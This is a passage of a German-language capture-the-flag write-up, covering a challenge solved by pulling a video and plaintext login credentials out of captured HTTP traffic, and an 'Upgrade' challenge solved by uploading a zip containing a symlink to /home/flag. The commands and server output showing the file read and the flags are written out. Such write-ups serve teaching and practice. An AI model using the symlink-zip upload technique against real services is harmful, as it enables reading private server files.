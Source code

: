 Es gibt mehrere interessante Requests die Credentials in der Payload haben:
```
POST /index.php?p=
HOST: localhost

fm_usr=admin&fm_pwd=admin123
```

```
GET /index.php?p=&view=movie.mp4 HTTP/1.1
HOST: localhost
Cookie: filemanager=69o8kcauteetsc2qpr8htduv5s
```
Metainformationen:
- Lokale Entwicklung mit XAMPP
- WebRoot ist 'C:/xampp/htdocs'
- PHP 8.0
- Es wird ein Video heruntergeladen

Wir können das Video mithilfe von Wireshark extrahieren und es uns angucken. In dem Video steht die Flag:
```
SBCTF{1n53cur3_commun1c471on}
```

## Challenge #7 ([Upgrade](http://18.184.207.28:3334/)) (hard)
Symlinks und robots.txt. Die Datei muss `source` heißen.

```
ln -s /home/flag source
zip --symlinks -r upgrade.zip source
```

```
User-agent: *

Disallow: /uploads
Disallow: /home/flag
```

```
The file upgrade.zip has been uploaded.

 
index.html 635
robots.txt 54
style.css 2.4K
upload.php 2.2K
uploads 12K
Archive:  uploads/d66a632a81d881df2c5b6ed4e8ad2d3d.zip
    linking: uploads/d66a632a81d881df2c5b6ed4e8ad2d3d/source  -> /home/flag 
finishing deferred symbolic links:
  uploads/d66a632a81d881df2c5b6ed4e8ad2d3d/source -> /home/flag


source file :
$ cat uploads/d66a632a81d881df2c5b6ed4e8ad2d3d/source

FLAG{zIp_aNd_sYmLinkS_arE_S0_rIskY} 
```

```
FLAG{zIp_aNd_sYmLinkS_arE_S0_rIskY} 
```

